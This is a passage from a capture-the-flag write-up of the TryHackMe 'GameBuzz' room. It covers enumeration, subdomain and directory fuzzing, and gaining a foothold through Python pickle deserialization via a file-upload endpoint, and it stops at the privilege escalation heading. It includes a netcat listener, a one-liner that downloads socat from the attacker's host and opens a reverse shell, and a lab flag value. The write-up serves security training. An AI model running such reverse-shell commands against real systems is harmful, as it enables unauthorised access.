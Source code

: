 # [GameBuzz] (https://tryhackme.com/r/room/gamebuzz)
> Author: Nayanjyoti Kumar

## Table of Content:
1. Service Enumeration
2. Initial Foothold
3. Privilege Escalation: www-data to dev2
4. Privilege Escalation: dev2 to dev1
5. Privilege Escalation: dev1 to root
6. Conclusion

## Service Enumeration:
1. As usual, scan the machine for open ports via rustscan!
> Rustscan:
![Screenshot 2024-07-17 102523](https://github.com/user-attachments/assets/5764091f-a89d-4167-80dd-480f689fbed8)

2. According to rustscan result, we have 1 port is opened:

- Open Port: 80
- Service: Apache httpd 2.4.29 ((Ubuntu))

### HTTP on Port 80:
1. Adding a new host to /etc/hosts:
> └> echo "$RHOSTS gamebuzz.thm" >> /etc/hosts

2. Home page:
![Screenshot 2024-07-17 103608](https://github.com/user-attachments/assets/42815bde-50aa-4222-80eb-96e3a2aa9e56)

3. After poking around the website, I found this is very interesting:
![Screenshot 2024-07-17 103629](https://github.com/user-attachments/assets/ee03831b-c171-4cea-8fcb-a496225ae4cc)

![Screenshot 2024-07-17 103638](https://github.com/user-attachments/assets/3aba97e2-e6f1-4e80-b32f-df63ca492ed4)
![Screenshot 2024-07-17 103650](https://github.com/user-attachments/assets/23a47ede-2f67-4d88-a5e7-f12b546ae8a5)

4. Burp Suite HTTP history:
![Screenshot 2024-07-17 103929](https://github.com/user-attachments/assets/93274ade-a887-4581-a610-5eaa49041a5d)

5. When we clicked one of those game ratings, it’ll send a POST request to /fetch, with parameter object.

6. By putting the puzzles together, the object parameter and the .pkl file extension is for Python’s pickle, which is a serialization library.

7. In the /fetch endpoint, we send file that’s pickled (serialized) object. Then, the backend deserialize our provided pickled object.

8. Hmm… If we can upload our own evil pickled object, then we might able to gain Remote Code Execution (RCE)!

9. In the bottom of the page, we found a new domain:
![Screenshot 2024-07-17 104146](https://github.com/user-attachments/assets/fd33af6e-0d9d-43aa-9642-4a8440362982)

10. Let’s replace our host in /etc/hosts to that domain!
> └> nano /etc/hosts
> 10.10.115.32 incognito.com

11. Then, we can enumerate subdomain via ffuf:
> └> ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u http://incognito.com/ -H "Host: FUZZ.incognito.com" -fs 20637 -t 100
> [...]
> dev                     [Status: 200, Size: 57, Words: 5, Lines: 2, Duration: 218ms]

12. Found subdomain: dev

Then add that subdomain to /etc/hosts:
> └> nano /etc/hosts
10.10.115.32 incognito.com dev.incognito.com

13. dev:
> └> curl http://dev.incognito.com/    
<h1 style="text-align: center;">Only for Developers</h1>
Hmm… Developers only.

14. Let’s check out the robots.txt crawler file:
> └> curl http://dev.incognito.com/robots.txt
User-Agent: *
Disallow: /secret

15. Found hidden directory: /secret
![Screenshot 2024-07-17 105501](https://github.com/user-attachments/assets/32e83494-b96c-44ce-b2db-bb740a2acc17)
Hmm… HTTP staus 403 Forbidden.

16. Now, we can still enumerate hidden directory:
> └> gobuster dir -u http://dev.incognito.com/secret/ -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt -t 40
[...]
/upload               (Status: 301) [Size: 330] [--> http://dev.incognito.com/secret/upload/]

17. Found hidden directory in /secret/: /upload/
![Screenshot 2024-07-17 105625](https://github.com/user-attachments/assets/a00b9b5e-66a0-4663-87ab-c5f59dfd952e)

- View source page:
![Screenshot 2024-07-17 105658](https://github.com/user-attachments/assets/106a5a42-0584-4652-82fb-a2984b07cb8c)

When we clicked the “Start Upload” button, it’ll send a POST request to /secret/upload/script.php, with parameter the_file.

## Initial Foothold: 
1. Armed with above information, we can upload our own evil pickled object to the server, then deserialize the pickled object in /fetch.

2. But first, let’s upload a test file:
> └> echo -n 'testing' > test.txt
![Screenshot 2024-07-17 110009](https://github.com/user-attachments/assets/06bebab7-8962-4cd0-acaf-2013fa4670ec)

We successfully uploaded a file. But where does the file lives??
However, I couldn’t find the uploaded file.
Maybe we can upload our file to a specific path via path traversal?

3. To do so, I’ll write a Python script to upload and trigger the deserialization payload:
![Screenshot 2024-07-17 110206](https://github.com/user-attachments/assets/7bc915c4-a45e-4a54-b25a-d99f1620416d)

> └> nc -lnvp 443
listening on [any] 443 ...

![Screenshot 2024-07-17 110408](https://github.com/user-attachments/assets/cca1c5b2-9a29-449c-985d-3e9baf40bcb6)
Nope. The path traversal doesn’t work.

4. After some trial and error, I found that the uploaded file is in /var/upload/<filename>:
![Screenshot 2024-07-17 110504](https://github.com/user-attachments/assets/14325504-6a70-47f7-90ce-f8d36a614cf9)

> └> python3 upload_file.py
[*] Upload file request:
The file evilObject.pkl has been uploaded.

![Screenshot 2024-07-17 110612](https://github.com/user-attachments/assets/9f0a436c-818b-4f6c-874e-8eeb38bdd09b)

This time it worked!!
I’m user www-data!

5. user.txt:www-data@incognito:/$ cat /home/dev2/user.txt
> d14def35ed0bd914c1c5881fa0fa8090

6. Stable shell via socat:
![Screenshot 2024-07-17 110850](https://github.com/user-attachments/assets/412b9fa7-995f-4529-8026-3f7c18b3c3c9)

> www-data@incognito:/$ wget http://10.9.0.253/socat -O /tmp/socat;chmod +x /tmp/socat;/tmp/socat TCP:10.9.0.253:4444 EXEC:'/bin/bash',pty,stderr,setsid,sigint,sane

> └> socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:4444                

> 2023/01/24 13:20:40 socat[74118] N opening character device "/dev/pts/1" for reading and writing

> 2023/01/24 13:20:40 socat[74118] N listening on AF=2 0.0.0.0:4444

> 2023/01/24 13:21:16 socat[74118] N accepting connection from AF=2 10.10.115.32:54844 on AF=2 10.9.0.253:4444

> 2023/01/24 13:21:16 socat[74118] N starting data transfer loop with FDs [5,5] and [7,7]

> www-data@incognito:/$ 

> www-data@incognito:/$ export TERM=xterm-256color

> www-data@incognito:/$ stty rows 22 columns 107

> www-data@incognito:/$ ^C

> www-data@incognito:/$

## Privilege Escalation
### www-data to dev2

